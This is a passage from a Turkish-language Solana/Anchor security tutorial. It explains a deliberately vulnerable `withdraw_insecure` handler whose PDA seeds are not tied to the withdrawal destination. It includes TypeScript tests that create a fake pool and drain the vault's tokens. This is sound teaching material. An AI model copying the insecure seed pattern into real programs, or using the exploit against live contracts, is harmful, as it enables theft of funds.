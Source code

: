 `withdraw_insecure` talimat işleyicisi, `vault` token hesabındaki tokenları bir `withdraw_destination` token hesabına transfer edecektir.

> **Uyarı:** Ancak, yazıldığı gibi imza atmak için kullanılan seedler `vault`'ın çekim hedefine özel değildir, bu nedenle program güvenlik açıklarına açıktır. Devam etmeden önce kodu incelemek için bir dakikanızı ayırın.

### 2. Withdraw_insecure Talimat İşleyicisini Test Edin

Test dosyası, `initialize_pool` talimat işleyicisini çağırmak ve ardından `vault` token hesabına 100 token mintlemek için kod içerir. Ayrıca, `withdraw_insecure`'ı amaçlanan `withdraw_destination` kullanarak çağırmak için bir test içerir. Bu, talimat işleyicilerinin amaçlandığı gibi kullanılabileceğini gösterir.

Bundan sonra, talimat işleyicilerinin kötüye kullanılmaya açık olduğunu gösteren iki test daha vardır.

1. İlk test, `vault` token hesabını kullanarak "sahte" bir `pool` hesabı oluşturmak için `initialize_pool` talimat işleyicisini çağırır, ancak farklı bir `withdraw_destination` kullanır.
2. İkinci test, bu havuzdan çekim yaparak vault'tan fon çalar.

```typescript
it("allows insecure initialization with incorrect vault", async () => {
  try {
    await program.methods
      .initializePool(insecureAuthorityBump)
      .accounts({
        pool: insecurePoolFake.publicKey,
        mint: tokenMint,
        vault: insecureVault.address,
        withdrawDestination: fakeWithdrawDestination,
      })
      .signers([insecurePoolFake])
      .rpc();

    await mintTo(
      connection,
      wallet.payer,
      tokenMint,
      insecureVault.address,
      wallet.payer,
      INITIAL_MINT_AMOUNT,
    );

    const vaultAccount = await getAccount(connection, insecureVault.address);
    expect(Number(vaultAccount.amount)).to.equal(INITIAL_MINT_AMOUNT);
  } catch (error) {
    throw new Error(`Test failed: ${error.message}`);
  }
});

it("allows insecure withdrawal to incorrect destination", async () => {
  try {
    await program.methods
      .withdrawInsecure()
      .accounts({
        pool: insecurePoolFake.publicKey,
        authority: insecureAuthority,
      })
      .rpc();

    const vaultAccount = await getAccount(connection, insecureVault.address);
    expect(Number(vaultAccount.amount)).to.equal(0);
  } catch (error) {
    throw new Error(`Test failed: ${error.message}`);
  }
```